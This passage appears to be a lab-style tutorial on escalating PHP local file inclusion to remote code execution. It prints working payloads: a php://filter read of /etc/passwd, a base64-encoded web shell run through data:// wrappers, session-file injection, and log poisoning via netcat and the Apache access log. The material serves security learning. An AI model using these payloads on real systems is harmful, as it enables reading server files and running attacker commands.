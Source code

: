 #### PHP Wrappers
PHP wrappers are part of PHP's functionality that allows users access to various data streams. Wrappers can also access or execute code through built-in PHP protocols, which may lead to significant security risks if not properly handled.
```php
php://filter/convert.base64-encode/resource=/etc/passwd
```
Once the application processes this payload, the server will return an encoded content of the passwd file. Then decode the base64 encoded data. PHP wrappers can also be used not only for reading files but also for ```code execution```. We will use the PHP code ```<?php system($_GET['cmd']); echo 'Shell done!'; ?>``` as our payload and ```PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+``` is the encoded base64 format of the PHP code. The full value of the payload, when encoded to base64, will be 
```
php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+
```
After sending the payload add ```&cmd=whoami``` after the ```+``` sign. Not before, because it is important to not include the &cmd=whoami in the input field since it will be encoded when the form is submitted. Once encoded, the backend will treat it as part of the base64 code, giving you an invalid byte sequence error.
#### Data Wrappers
The data stream wrapper is another example of PHP's wrapper functionality. The ```data://``` wrapper allows inline data embedding. It is used to embed small amounts of data directly into the application code.
```txt
data:text/plain,<?php%20phpinfo();%20?>
```
This Payload could cause PHP code execution, displaying the PHP configuration details.
#### PHP Session Files
PHP session files can also be used in an LFI attack, leading to Remote Code Execution, particularly if an attacker can manipulate the session data. In a typical web application, session data is stored in files on the server. If an attacker can inject malicious code into these session files, and if the application includes these files through an LFI vulnerability, this can lead to code execution.
##### Exploitation
An attacker could exploit this vulnerability by injecting a PHP code into their session variable by using ```<?php echo phpinfo(); ?>``` in the page parameter.
```
<?php echo phpinfo(); ?>
```
This code is then saved in the session file on the server. Subsequently, the attacker can use the LFI vulnerability to include this session file. Since session IDs are hashed, the ID can be found in the cookies section of your browser. Accessing the Path ```/var/lib/php/sessions/sess_[sessionID]``` will execute the injected PHP code in the session file. Note that you have to replace ```[sessionID]``` with the value from your PHPSESSID cookie.
#### Log Poisoning
Log poisoning is a technique where an attacker injects executable code into a web server's log file and then uses an LFI vulnerability to include and execute this log file. This method is particularly stealthy because log files are shared and are a seemingly harmless part of web server operations. In a log poisoning attack, the attacker must first inject malicious PHP code into a log file. This can be done in various ways, such as crafting an evil user agent, sending a payload via URL using Netcat, or a referrer header that the server logs. Once the PHP code is in the log file, the attacker can exploit an LFI vulnerability to include it as a standard PHP file. This causes the server to execute the malicious code contained in the log file, leading to RCE.
##### Exploitation:
Start nc on target server.
```
nc 10.10.173.214 80             
```
Now inject the php code and send. The code will then be logged in the server's access logs.
```        
<?php echo phpinfo(); ?>
```
The attacker then uses LFI to include the access log file: ```/var/log/apache2/access.log```
